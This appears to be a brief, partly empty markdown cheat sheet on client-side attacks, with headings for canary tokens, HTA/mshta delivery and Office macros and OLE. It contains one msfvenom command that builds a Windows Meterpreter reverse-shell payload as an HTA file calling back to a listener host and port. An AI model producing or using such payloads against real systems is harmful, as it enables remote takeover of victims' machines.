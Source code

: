 # Client-Side Attacks

## information gathering

### canary

<https://canarytokens.org/generate>

## HTA

### mshta

VBscript Wscript.Shell powershell.exe

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.16.8.1 LPORT=4444 -f hta-psh -o shell.hta
```

## Office

### Macro

### OLE
